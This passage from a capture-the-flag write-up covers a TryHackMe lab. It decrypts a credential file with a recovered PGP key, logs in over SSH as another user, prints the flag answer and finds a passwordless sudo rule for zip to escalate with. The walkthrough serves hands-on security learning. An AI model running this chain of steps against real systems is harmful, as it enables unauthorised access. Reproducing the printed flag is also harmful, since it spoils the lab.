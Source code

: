 ![6](https://github.com/Knign/Write-ups/assets/110326359/b9cd78ce-3415-4744-9700-c962ae3e1f7f)

```
$ gpg --import tryhackme.asc           
gpg: keybox '/home/kunal/.gnupg/pubring.kbx' created
gpg: /home/kunal/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
We can now decrypt the `credential.pgp` file.
```
$ gpg -d credential.pgp       
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```
Look like another user's credentials.

Let's SSH login using `merlin` as the username and `asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j` as the password.
```
$ ssh merlin@10.10.106.51                                                  
merlin@10.10.106.51's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ 
```
Let's `cat` the flag now.
```
merlin@ubuntu:~$ cat user.txt 
THM{GhostCat_1s_so_cr4sy}
```
### Answer
```
THM{GhostCat_1s_so_cr4sy}
```

&nbsp;

### Escalate privileges and obtain root.txt
We need to look for sudo entries first.
```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
Let's go to GTFObins to find some exploit.
